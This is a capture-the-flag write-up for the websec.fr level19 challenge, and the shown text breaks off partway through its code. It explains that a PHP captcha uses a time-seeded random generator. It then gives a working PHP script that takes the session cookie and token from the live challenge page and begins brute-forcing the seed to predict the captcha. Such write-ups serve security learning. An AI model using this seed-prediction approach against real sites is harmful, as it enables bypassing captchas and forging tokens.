 In general way, it set a `token`, and then set a `captcha` and give you the captcha image.
If you succeed in the captcha test, it'll send the flag to the mail:
```php
$email_addr = 'level19' . '@' . $_SERVER['HTTP_HOST'];  // less hassle if we move to another domain
send_flag_by_email ($email_addr);
```

So, first we can see the SEED is based on time `srand (microtime (true));`, which point on vulnerability, notice that it cast it to `int`, so it simply like taking `now()`.

Then, it generates the `token` from the first 32 `rand()`, and the captcha from the next 25 `rand()`, so we can try bruteforcing, find the SEED, and then calculating the `captcha`.

so, I wrote this code to achieve the SEED:
```php
<?php

function generate_random_text($length) {
    $chars  = "abcdefghijklmnopqrstuvwxyz";
    $chars .= "ABCDEFGHIJKLMNOPQRSTUVWXYZ";
    $chars .= "1234567890";

    $text = '';
    for ($i = 0; $i < $length; $i++) {
        $text .= $chars[rand() % strlen($chars)];
    }
    return $text;
}

// --- Step 1: GET request to fetch token and PHPSESSID ---
$opts = [
    "http" => [
        "method" => "GET",
        "header" => "User-Agent: PHP\r\n"
    ]
];
$context = stream_context_create($opts);
$response = file_get_contents("https://websec.fr/level19/index.php", false, $context);

// Extract PHPSESSID from response headers
$php_sessid = null;
foreach ($http_response_header as $hdr) {
    if (preg_match('/^Set-Cookie:\s*PHPSESSID=([^;]+)/', $hdr, $matches)) {
        $php_sessid = $matches[1];
        break;
    }
}

if (!$php_sessid) {
    die("[-] Could not retrieve PHPSESSID\n");
}

// Extract token
if (!preg_match('/name="token" value="([^"]+)"/', $response, $matches)) {
    die("[-] Could not find token\n");
}
$captured_token = $matches[1];

echo "[+] Captured token: $captured_token\n";
echo "[+] Captured PHPSESSID: $php_sessid\n";

// --- Step 2: Find seed ---
$now = microtime(true);
$found = false;

```